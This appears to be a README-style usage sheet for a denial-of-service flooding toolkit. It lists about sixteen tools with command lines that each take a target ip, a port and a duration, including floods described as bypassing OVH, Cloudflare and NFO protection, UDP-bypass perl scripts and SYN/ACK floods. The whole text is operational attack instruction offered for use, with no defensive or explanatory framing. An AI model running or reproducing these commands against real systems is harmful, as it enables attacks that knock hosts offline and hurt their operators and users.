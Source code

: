 How to use :

SSA : sudo ./ssa (ip)

ETC : sudo ./etc (ip) (port)

OVH : sudo ./ovh %ip% %port% 9999 0 %time

OVH-V2 : sudo ./ovhbypass2 %ip% %port% %time udp

STD : sudo ./STD-NOSPOOF %ip% %port%

STCP : sudo ./STCP %ip% %port% 10 -1 %time ack

HEX : sudo ./HEX OVH %ip% %port% 300

NUKE-BYPASS : sudo ./HiperOVH %ip% %port

CLOUDFLARE : sudo ./cloudflare %ip% 10 -1 300

ETHERA : sudo ./ETHERA %ip% %port

CPU-SURGE : sudo ./CPU-SURGE TCP %ip% %port% 300

VALID-SYN : sudo ./WRA %ip% %port% 10 -1 300

R4P3 : sudo ./gre %ip% 10 -1 300

NFO : sudo ./NFO %ip% %port% 10 -1 300

UDP-BYPASSV2 : sudo perl UDP-BYPASS-V2.pl %ip% %port% 5500 300

UDP-BYPASS : sudo perl UDP-BYPASS.pl %ip% 300
